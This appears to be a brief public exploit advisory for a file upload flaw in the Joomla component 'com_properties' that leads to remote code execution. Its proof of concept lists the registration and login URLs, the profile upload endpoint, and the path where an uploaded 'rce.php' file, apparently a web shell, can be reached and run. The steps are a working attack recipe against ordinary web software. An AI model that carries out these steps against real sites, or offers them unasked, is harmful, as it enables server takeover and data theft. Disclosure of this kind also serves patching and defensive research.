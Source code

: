 
#Exploit Title: Joomla Component 'com_properties' File Upload/RCE

* Google Dork: NA


* Exploit Author: Und3r-r00t

* Tested on: Centos

* PoC  
  * register and login
  `http://localhost/index.php?option=com_user&task=register&Itemid=`
  
  `http://localhost/index.php?option=com_user&view=login`

  * Upload File 
  `http://localhost/index.php?option=com_properties&amp;view=profile&amp;Itemid=19`

  * File path
  `http://localhost/images/properties/profiles/rce.php`


`----------------------
github - Und3r-r00t
twitter - @p33rl
----------------------`
